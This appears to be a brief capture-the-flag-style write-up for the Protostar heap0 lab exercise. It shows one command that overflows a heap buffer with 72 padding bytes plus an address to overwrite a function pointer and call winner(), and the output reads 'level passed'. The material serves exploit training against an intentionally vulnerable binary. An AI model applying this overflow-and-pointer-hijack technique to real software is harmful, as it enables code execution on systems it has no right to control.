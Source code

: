 #Heap 0

Goal:Overwriting pointer to winner (execute winner function)

```
[15:42:56] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/heap0$./heap0 $(python -c 'print "A" * 72 + "\xad\x84\x04\x08"')
data is at 0x804b008,fp is at 0x804b050
level passed
```
